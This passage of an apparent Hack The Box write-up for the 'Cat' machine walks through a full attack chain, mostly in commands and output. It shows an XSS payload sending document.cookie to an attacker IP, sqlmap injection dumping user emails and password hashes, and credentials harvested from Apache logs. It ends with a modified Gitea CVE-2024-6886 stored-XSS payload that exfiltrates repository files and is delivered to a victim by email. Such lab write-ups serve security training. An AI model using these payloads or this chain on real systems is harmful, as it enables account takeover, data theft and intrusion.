┌──(kali㉿kali)-[/media/…/HTB/Machines/Cat/serve]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.73.41 - - [02/Feb/2025 12:26:47] code 404, message File not found
10.129.73.41 - - [02/Feb/2025 12:26:47] "GET /x?cookie=UEhQU0VTU0lEPWV2MTVocnQzczNzN2FnMXQ0dWZzbHBvdjZp HTTP/1.1" 404 -
```

We `decoded` the `cookie`, `replaced` our previous `cookie` with it and `refreshed` the `page` to see that the `Admin` section was now available to us.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cat/serve]
└─$ echo "UEhQU0VTU0lEPWV2MTVocnQzczNzN2FnMXQ0dWZzbHBvdjZp" | base64 -d
PHPSESSID=ev15hrt3s3s7ag1t4ufslpov6i
```


And there was our previously uploaded cat picture. Nice.


## Foothold

### SQL Injection (SQLi)

To pull off the `SQL Injection (SQLi)` we needed to send a `POST request` through the `accept_cat.php`.

```c
┌──(kali㉿kali)-[/media/…/Machines/Cat/files/dump]
└─$ cat accept_cat.php 
<?php
include 'config.php';
session_start();

if (isset($_SESSION['username']) && $_SESSION['username'] === 'axel') {
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
        if (isset($_POST['catId']) && isset($_POST['catName'])) {
            $cat_name = $_POST['catName'];
            $catId = $_POST['catId'];
            $sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
            $pdo->exec($sql_insert);

            $stmt_delete = $pdo->prepare("DELETE FROM cats WHERE cat_id = :cat_id");
            $stmt_delete->bindParam(':cat_id', $catId, PDO::PARAM_INT);
            $stmt_delete->execute();

            echo "The cat has been accepted and added successfully.";
        } else {
            echo "Error: Cat ID or Cat Name not provided.";
        }
    } else {
        header("Location: /");
        exit();
    }
} else {
    echo "Access denied.";
}
?>
```

Below the picture of the cat was the `Accept` button which we clicked to `intercept` and `save` the `HTTP request` using `Burp Suite`.



```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cat/files]
└─$ cat request.req 
POST /accept_cat.php HTTP/1.1
Host: cat.htb
Content-Length: 20
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://cat.htb
Referer: http://cat.htb/admin.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=93bl120bfpat62svahs9e1ndhr
Connection: keep-alive

catName=asdf&catId=1
```

After that we handed the `request` over to `sqlmap` which performed the attack for us automatically and `dumped` the `users table`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cat/files]
└─$ sqlmap -r request.req -p catName --dbms sqlite --level 5 --risk 3 -T users --batch
        ___
       __H__                                                                     
 ___ ___["]_____ ___ ___  {1.8.12#stable}                                        
|_ -| . [(]     | .'| . |                                                        
|___|_  [.]_|_|_|__,|  _|                                                        
      |_|V...       |_|   https://sqlmap.org                                                                                                                             
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:47:27 /2025-02-02/

[14:47:27] [INFO] parsing HTTP request from 'request.req'
[14:47:27] [INFO] testing connection to the target URL
[14:47:27] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:47:27] [INFO] testing if the target URL content is stable
[14:47:28] [INFO] target URL content is stable
[14:47:28] [WARNING] heuristic (basic) test shows that POST parameter 'catName' might not be injectable
[14:47:28] [INFO] testing for SQL injection on POST parameter 'catName'
[14:47:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:47:29] [INFO] POST parameter 'catName' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --code=200)
[14:47:29] [INFO] testing 'Generic inline queries'
[14:47:29] [INFO] testing 'SQLite inline queries'
[14:47:29] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[14:47:29] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[14:47:29] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[14:47:39] [INFO] POST parameter 'catName' appears to be 'SQLite > 2.0 AND time-based blind (heavy query)' injectable 
[14:47:39] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:47:39] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[14:47:39] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[14:47:39] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[14:47:39] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[14:47:39] [INFO] testing 'Generic UNION query (random number) - 41 to 60 columns'
[14:47:39] [INFO] testing 'Generic UNION query (NULL) - 61 to 80 columns'
[14:47:39] [INFO] testing 'Generic UNION query (random number) - 61 to 80 columns'
[14:47:39] [INFO] testing 'Generic UNION query (NULL) - 81 to 100 columns'
[14:47:39] [INFO] testing 'Generic UNION query (random number) - 81 to 100 columns'
[14:47:39] [INFO] checking if the injection point on POST parameter 'catName' is a false positive
POST parameter 'catName' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 83 HTTP(s) requests:
---
Parameter: catName (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: catName=asdf'||(SELECT CHAR(118,76,85,108) WHERE 5131=5131 AND 7518=7518)||'&catId=1

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: catName=asdf'||(SELECT CHAR(109,117,103,82) WHERE 9542=9542 AND 3953=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))||'&catId=1
---
[14:47:40] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: SQLite
[14:47:40] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 42 times
[14:47:40] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/cat.htb'

[*] ending @ 14:47:40 /2025-02-02/
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cat/files]
└─$ sqlmap -r request.req -p catName --dbms sqlite --level 5 --risk 3 -T users --dump --batch
        ___
       __H__                                                                     
 ___ ___["]_____ ___ ___  {1.8.12#stable}                                        
|_ -| . [(]     | .'| . |                                                        
|___|_  [.]_|_|_|__,|  _|                                                        
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:50:01 /2025-02-02/

[14:50:01] [INFO] parsing HTTP request from 'request.req'
[14:50:01] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: catName (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: catName=asdf'||(SELECT CHAR(118,76,85,108) WHERE 5131=5131 AND 7518=7518)||'&catId=1

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: catName=asdf'||(SELECT CHAR(109,117,103,82) WHERE 9542=9542 AND 3953=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))||'&catId=1
---
[14:50:01] [INFO] testing SQLite
[14:50:01] [INFO] confirming SQLite
[14:50:01] [INFO] actively fingerprinting SQLite
[14:50:01] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Ubuntu 19.10 or 20.10 or 20.04 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: SQLite
[14:50:01] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[14:50:01] [INFO] retrieved: CREATE TABLE users (     user_id INTEGER PRIMARY KEY,     username VARCHAR(255) NOT NULL,     email VARCHAR(255) NOT NULL,     password VARCHAR(255) NOT NULL )
[14:50:38] [INFO] fetching entries for table 'users'                                                                                                                                                                                        
[14:50:38] [INFO] fetching number of entries for table 'users' in database 'SQLite_masterdb'                                                                                                                                                
[14:50:38] [INFO] retrieved: 11                                                                                                                                                                                                             
[14:50:38] [INFO] retrieved: axel2017@gmail.com                                                                                                                                                                                             
[14:50:42] [INFO] retrieved: d1bbba3670feb9435c9841e46e60ee2f                                                                                                                                                                               
[14:50:49] [INFO] retrieved: 1                                                                                                                                                                                                              
[14:50:49] [INFO] retrieved: axel                                                                                                                                                                                                           
[14:50:50] [INFO] retrieved: rosamendoza485@gmail.com                                                                                                                                                                                       
[14:50:55] [INFO] retrieved: ac369922d560f17d6eeb8b2c7dec498c                                                                                                                                                                               
[14:51:02] [INFO] retrieved: 2                                                                                                                                                                                                              
[14:51:02] [INFO] retrieved: rosa                                                                                                                                                                                                           
[14:51:03] [INFO] retrieved: robertcervantes2000@gmail.com                                                                                                                                                                                  
[14:51:09] [INFO] retrieved: 42846631708f69c00ec0c0a8aa4a92ad                                                                                                                                                                               
[14:51:16] [INFO] retrieved: 3                                                                                                                                                                                                              
[14:51:16] [INFO] retrieved: robert                                                                                                                                                                                                         
[14:51:17] [INFO] retrieved: fabiancarachure2323@gmail.com                                                                                                                                                                                  
[14:51:27] [INFO] retrieved: 39e153e825c4a3d314a0dc7f7475ddbe                                                                                                                                                                               
[14:51:35] [INFO] retrieved: 4                                                                                                                                                                                                              
[14:51:35] [INFO] retrieved: fabian                                                                                                                                                                                                         
[14:51:36] [INFO] retrieved: jerrysonC343@gmail.com                                                                                                                                                                                         
[14:51:40] [INFO] retrieved: 781593e060f8d065cd7281c5ec5b4b86
[14:51:47] [INFO] retrieved: 5
[14:51:48] [INFO] retrieved: jerryson
[14:51:49] [INFO] retrieved: larryP5656@gmail.com
[14:51:53] [INFO] retrieved: 1b6dce240bbfbc0905a664ad199e18f8
[14:52:00] [INFO] retrieved: 6
[14:52:00] [INFO] retrieved: larry
[14:52:01] [INFO] retrieved: royer.royer2323@gmail.com
[14:52:07] [INFO] retrieved: c598f6b844a36fa7836fba0835f1f6
[14:52:15] [INFO] retrieved: 7
[14:52:15] [INFO] retrieved: royer
[14:52:16] [INFO] retrieved: peterCC456@gmail.com
[14:52:20] [INFO] retrieved: e41ccefa439fc454f7eadbf1f139ed8a
[14:52:27] [INFO] retrieved: 8
[14:52:27] [INFO] retrieved: peter
[14:52:28] [INFO] retrieved: angel234g@gmail.com
[14:52:32] [INFO] retrieved: 24a8ec003ac2e1b3c5953a6f95f8f565
[14:52:40] [INFO] retrieved: 9
[14:52:41] [INFO] retrieved: angel
[14:52:42] [INFO] retrieved: jobert2020@gmail.com
[14:52:46] [INFO] retrieved: 88e4dceccd48820cf77b5cf6c08698ad
[14:52:52] [INFO] retrieved: 10
[14:52:53] [INFO] retrieved: jobert
[14:52:54] [INFO] retrieved: foobar@foobar.local
[14:52:58] [INFO] retrieved: 3858f62230ac3c915f300c664312c63f
[14:53:05] [INFO] retrieved: 11
[14:53:06] [INFO] retrieved: <script>fetch('http://10.10.14.47/x?cookie=' + btoa(document.cookie))</script>
[14:53:29] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[14:53:29] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:53:29] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[14:53:29] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[14:53:29] [INFO] starting 4 processes 
[14:53:32] [INFO] cracked password 'foobar' for user '<script>fetch('http://10.10.14.47/x?cookie=' + btoa(document.cookie))</script>'                                                                                                      
Database: <current>                                                                                                                                                                                                                        
Table: users
[11 entries]
+---------+-------------------------------+-------------------------------------------+--------------------------------------------------------------------------------+
| user_id | email                         | password                                  | username                                                                       |
+---------+-------------------------------+-------------------------------------------+--------------------------------------------------------------------------------+
| 1       | axel2017@gmail.com            | d1bbba3670feb9435c9841e46e60ee2f          | axel                                                                           |
| 2       | rosamendoza485@gmail.com      | ac369922d560f17d6eeb8b2c7dec498c          | rosa                                                                           |
| 3       | robertcervantes2000@gmail.com | 42846631708f69c00ec0c0a8aa4a92ad          | robert                                                                         |
| 4       | fabiancarachure2323@gmail.com | 39e153e825c4a3d314a0dc7f7475ddbe          | fabian                                                                         |
| 5       | jerrysonC343@gmail.com        | 781593e060f8d065cd7281c5ec5b4b86          | jerryson                                                                       |
| 6       | larryP5656@gmail.com          | 1b6dce240bbfbc0905a664ad199e18f8          | larry                                                                          |
| 7       | royer.royer2323@gmail.com     | c598f6b844a36fa7836fba0835f1f6            | royer                                                                          |
| 8       | peterCC456@gmail.com          | e41ccefa439fc454f7eadbf1f139ed8a          | peter                                                                          |
| 9       | angel234g@gmail.com           | 24a8ec003ac2e1b3c5953a6f95f8f565          | angel                                                                          |
| 10      | jobert2020@gmail.com          | 88e4dceccd48820cf77b5cf6c08698ad          | jobert                                                                         |
| 11      | foobar@foobar.local           | 3858f62230ac3c915f300c664312c63f (foobar) | <script>fetch('http://10.10.14.47/x?cookie=' + btoa(document.cookie))</script> |
+---------+-------------------------------+-------------------------------------------+--------------------------------------------------------------------------------+

[14:53:39] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/cat.htb/dump/SQLite_masterdb/users.csv'
[14:53:39] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 3379 times
[14:53:39] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/cat.htb'

[*] ending @ 14:53:39 /2025-02-02/
```

### Cracking the Hash

We tested the exfiltrated `hashes` on `CrackStation` and got lucky on `rosa's hash`.

- [https://crackstation.net/](https://crackstation.net/)

| Hash                             | Password           |
| -------------------------------- | ------------------ |
| ac369922d560f17d6eeb8b2c7dec498c | soyunaprincesarosa |

### SSH Access as rosa

With the `already cracked password` of `rosa` we were able to login via `SSH`.

```c
┌──(kali㉿kali)-[~]
└─$ ssh rosa@10.129.73.41
The authenticity of host '10.129.73.41 (10.129.73.41)' can't be established.
ED25519 key fingerprint is SHA256:tsmOV3JuQkCv6HNUqg9YQ+DJznLS2nYKJl4zIwKtbE4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.73.41' (ED25519) to the list of known hosts.
rosa@10.129.73.41's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-204-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun 02 Feb 2025 03:15:49 PM UTC

  System load:           0.2
  Usage of /:            53.9% of 6.06GB
  Memory usage:          19%
  Swap usage:            0%
  Processes:             239
  Users logged in:       0
  IPv4 address for eth0: 10.129.73.41
  IPv6 address for eth0: dead:beef::250:56ff:fe94:f934


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Sat Sep 28 15:44:52 2024 from 192.168.1.64
rosa@cat:~$
```

## Enumeration

Immediately after the login we started with the `enumeration` and noticed while checking her `group memberships`, that she was in the `adm` group.

```c
rosa@cat:~$ id
uid=1001(rosa) gid=1001(rosa) groups=1001(rosa),4(adm)
```

She was also not allowed to execute `sudo` on the box.

```c
rosa@cat:~$ sudo -l
[sudo] password for rosa: 
Sorry, user rosa may not run sudo on cat.
```

In addition to her we found two more `usernames` on the system. The user `axel` was already known to us but `jobert` was new.

```c
rosa@cat:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
axel:x:1000:1000:axel:/home/axel:/bin/bash
rosa:x:1001:1001:,,,:/home/rosa:/bin/bash
git:x:114:119:Git Version Control,,,:/home/git:/bin/bash
smmta:x:115:120:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:116:121:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
jobert:x:1002:1002:,,,:/home/jobert:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

| Username |
| -------- |
| axel     |
| jobert   |

## Privilege Escalation to axel

To perform `privilege escalation` to `axel` we remembered the `login process` and that our `credentials` got send in `plaintext`. Therefore and through the `membership` of `adm` we checked the `Apache2 logfiles` just to find the `password` for `axel`.

```c
rosa@cat:/var/log/apache2$ grep axel access.log | head -3
127.0.0.1 - - [02/Feb/2025:10:12:40 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [02/Feb/2025:10:12:50 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [02/Feb/2025:10:13:01 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
```

| Username | Password             |
| -------- | -------------------- |
| axel     | aNdZwgC4tI9gnVXv_e3Q |

With his `password` in our pockets we `switched` the `user session` and grabbed the `user.txt`.

```c
rosa@cat:/var/log/apache2$ su axel
Password: 
axel@cat:/var/log/apache2$
```

## user.txt

```c
axel@cat:~$ cat user.txt 
e2a3b4008bc042335b8e699be2b8bb54
```

## Pivoting axel

As next step we `pivoted` through `axel` and figured out that he received an `email`.

```c
axel@cat:~$ id
uid=1000(axel) gid=1000(axel) groups=1000(axel)
```

```c
axel@cat:~$ ls -la
total 32
drwxr-x--- 5 axel axel 4096 Jan 21 12:52 .
drwxr-xr-x 6 root root 4096 Aug 30 23:19 ..
lrwxrwxrwx 1 root root    9 Jan 21 12:49 .bash_history -> /dev/null
-rw-r--r-- 1 axel axel 3739 Aug 29 18:29 .bashrc
drwx------ 2 axel axel 4096 Sep  7 05:23 .cache
drwxrwxr-x 3 axel axel 4096 Sep  4 02:26 .local
-rw-r--r-- 1 axel axel  807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root    9 Sep  4 02:18 .python_history -> /dev/null
lrwxrwxrwx 1 root root    9 Jan 21 12:49 .sqlite_history -> /dev/null
drwx------ 2 axel axel 4096 Jan 14 17:09 .ssh
-rw-r----- 1 root axel   33 Feb  2 10:13 user.txt
```

```c
rosa@cat:/var/mail$ la -la
total 112
drwxrwsrwt  2 root   mail  4096 Feb  2 15:20 .
drwxr-xr-x 13 root   root  4096 Jun  6  2024 ..
-rw-rw----  1 axel   mail  1961 Jan 14 16:49 axel
-rw-rw----  1 jobert mail     0 Jan 14 16:54 jobert
-rw-------  1 root   mail 95636 Feb  2 15:20 root
```

The content of the email was all about a new `employee management system`. The code was still under construction but stored on the `local Gitea instance`.

```c
axel@cat:/var/mail$ cat axel
From rosa@cat.htb  Sat Sep 28 04:51:50 2024
Return-Path: <rosa@cat.htb>
Received: from cat.htb (localhost [127.0.0.1])
        by cat.htb (8.15.2/8.15.2/Debian-18) with ESMTP id 48S4pnXk001592
        for <axel@cat.htb>; Sat, 28 Sep 2024 04:51:50 GMT
Received: (from rosa@localhost)
        by cat.htb (8.15.2/8.15.2/Submit) id 48S4pnlT001591
        for axel@localhost; Sat, 28 Sep 2024 04:51:49 GMT
Date: Sat, 28 Sep 2024 04:51:49 GMT
From: rosa@cat.htb
Message-Id: <202409280451.48S4pnlT001591@cat.htb>
Subject: New cat services

Hi Axel,

We are planning to launch new cat-related web services, including a cat care website and other projects. Please send an email to jobert@localhost with information about your Gitea repository. Jobert will check if it is a promising service that we can develop.

Important note: Be sure to include a clear description of the idea so that I can understand it properly. I will review the whole repository.

From rosa@cat.htb  Sat Sep 28 05:05:28 2024
Return-Path: <rosa@cat.htb>
Received: from cat.htb (localhost [127.0.0.1])
        by cat.htb (8.15.2/8.15.2/Debian-18) with ESMTP id 48S55SRY002268
        for <axel@cat.htb>; Sat, 28 Sep 2024 05:05:28 GMT
Received: (from rosa@localhost)
        by cat.htb (8.15.2/8.15.2/Submit) id 48S55Sm0002267
        for axel@localhost; Sat, 28 Sep 2024 05:05:28 GMT
Date: Sat, 28 Sep 2024 05:05:28 GMT
From: rosa@cat.htb
Message-Id: <202409280505.48S55Sm0002267@cat.htb>
Subject: Employee management

We are currently developing an employee management system. Each sector administrator will be assigned a specific role, while each employee will be able to consult their assigned tasks. The project is still under development and is hosted in our private Gitea. You can visit the repository at: http://localhost:3000/administrator/Employee-management/. In addition, you can consult the README file, highlighting updates and other important details, at: http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md.
```

We verified that the default port `3000/TCP` for `Gitea` was open and `forwarded the port` to our local machine. We also noticed that port `25/TCP` was running locally too.

```c
rosa@cat:~$ ss -tulpn
Netid                   State                    Recv-Q                   Send-Q                                     Local Address:Port                                       Peer Address:Port                   Process                   
udp                     UNCONN                   0                        0                                          127.0.0.53%lo:53                                              0.0.0.0:*                                                
udp                     UNCONN                   0                        0                                                0.0.0.0:68                                              0.0.0.0:*                                                
tcp                     LISTEN                   0                        10                                             127.0.0.1:587                                             0.0.0.0:*                                                
tcp                     LISTEN                   0                        4096                                       127.0.0.53%lo:53                                              0.0.0.0:*                                                
tcp                     LISTEN                   0                        128                                              0.0.0.0:22                                              0.0.0.0:*                                                
tcp                     LISTEN                   0                        37                                             127.0.0.1:55575                                           0.0.0.0:*                                                
tcp                     LISTEN                   0                        4096                                           127.0.0.1:3000                                            0.0.0.0:*                                                
tcp                     LISTEN                   0                        10                                             127.0.0.1:25                                              0.0.0.0:*                                                
tcp                     LISTEN                   0                        128                                            127.0.0.1:36187                                           0.0.0.0:*                                                
tcp                     LISTEN                   0                        1                                              127.0.0.1:43683                                           0.0.0.0:*                                                
tcp                     LISTEN                   0                        511                                                    *:80                                                    *:*                                                
tcp                     LISTEN                   0                        128                                                 [::]:22                                                 [::]:*
```

## Port Forwarding

```c
┌──(kali㉿kali)-[~]
└─$ ssh -L 3000:127.0.0.1:3000 rosa@10.129.73.41
rosa@10.129.73.41's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-204-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun 02 Feb 2025 03:19:43 PM UTC

  System load:           0.12
  Usage of /:            53.9% of 6.06GB
  Memory usage:          20%
  Swap usage:            0%
  Processes:             243
  Users logged in:       0
  IPv4 address for eth0: 10.129.73.41
  IPv6 address for eth0: dead:beef::250:56ff:fe94:f934


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Feb  2 15:15:51 2025 from 10.10.14.47
rosa@cat:~$
```

## Enumeration Port 3000/TCP

After the `port forwarding` we were able to access `Gitea` and found out that it was running `version 1.22.0`.

- [http://127.0.0.1:3000/](http://127.0.0.1:3000/)


| Version |
| ------- |
| 1.22.0  |

## Privilege Escalation to root

### CVE-2024-6886: Stored Cross-Site Scripting (XSS) in Gitea 1.22.0

Some quick research on the `vulnerabilities` for this version of `Gitea` showed that it was vulnerable to `CVE-2024-6886` aka `Stored Cross-Site Scripting (XSS)`.

- [https://www.exploit-db.com/exploits/52077](https://www.exploit-db.com/exploits/52077)

With the information about the files we needed to look for to enumerate the `employee management system` we modified the `Proof of Concept (PoC)` payload to `grab any file` we want and `send it back` to our local `web server`.

```c
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(r=>r.text()).then(d=>fetch('http://10.10.14.47/?response='+encodeURIComponent(d))).catch(e=>console.error('Error:',e));">foobar</a>
```

To pull this off we created a `new repository` as `axel` and put the `payload` into the `Description field`.



Then we created the file we wanted to grab, in this case the `index.php` and put the `payload` into it. We are still not sure if this step was necessary but we had some issues without the file.


Next we forwarded port `25/TCP` to trigger the `second client-side attack` for this box.

```c
┌──(kali㉿kali)-[~]
└─$ ssh -L 25:127.0.0.1:25 axel@10.129.73.41
axel@10.129.73.41's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-204-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun 02 Feb 2025 04:13:45 PM UTC

  System load:           0.2
  Usage of /:            54.0% of 6.06GB
  Memory usage:          21%
  Swap usage:            0%
  Processes:             249
  Users logged in:       1
  IPv4 address for eth0: 10.129.73.41
  IPv6 address for eth0: dead:beef::250:56ff:fe94:f934


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


You have mail.
Last login: Fri Jan 31 11:31:57 2025 from 10.10.14.69
axel@cat:~$
```

With `swaks` we send the `URL` to our `malicious repository` to `jobert`.

```c
┌──(kali㉿kali)-[~]
└─$ swaks --server 127.0.0.1 -t jobert@localhost --from axel@cat.htb --header "http://localhost:3000/axel/foobar" --body "http://localhost:3000/axel/foobar"
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cat/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

To check if `jober` actually checked his `emails` we watched the size of his `mail file` inside `/var/mail/`. If it dropped back to `0` the `mail` was read.

```c
axel@cat:~$ watch ls -la /var/mail/jobert
```

```c
Every 2.0s: ls -la /var/mail/jobert                                                                                
-rw-rw---- 1 jobert mail 494 Feb  2 16:22 /var/mail/jobert
```

After a few seconds we received the `encoded` content of `index.php` which contained the `password` for `administrator`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cat/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
